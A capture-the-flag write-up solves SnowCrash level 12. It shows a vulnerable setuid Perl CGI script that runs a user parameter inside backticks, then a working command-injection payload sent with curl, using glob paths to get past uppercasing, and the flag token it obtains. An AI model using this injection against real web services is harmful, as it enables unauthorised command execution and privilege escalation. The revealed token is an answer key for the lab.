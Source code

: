 # Level 12

## Vulnerability
Priviledge escalation via CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
```http://${VM_IP}:4646/?x={shellscript}<br/>```

In the program, the shellscript is evaluated in the $xx variable... which we can exploit!<br/>
The regex will capitalize the $xx argument. <br/>
If we write ```x="getflag > /dev/shm/flag12"``` it will be changed to ```"GETFLAG > /DEV/SHM/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Let's try writing our script to a file. 
```
level12@SnowCrash:~$ echo "getflag > /dev/shm/flag12" > /dev/shm/EXPLOIT
level12@SnowCrash:~$ cat /dev/shm/EXPLOIT
getflag > /dev/shm/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /dev/shm
level12@SnowCrash:/dev/shm$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
bash: /dev/shm/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/dev/shm$ chmod 755 EXPLOIT
level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
level12@SnowCrash:/dev/shm$ ls
EXPLOIT  flag12
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script.<br/>
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/dev/shm$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!
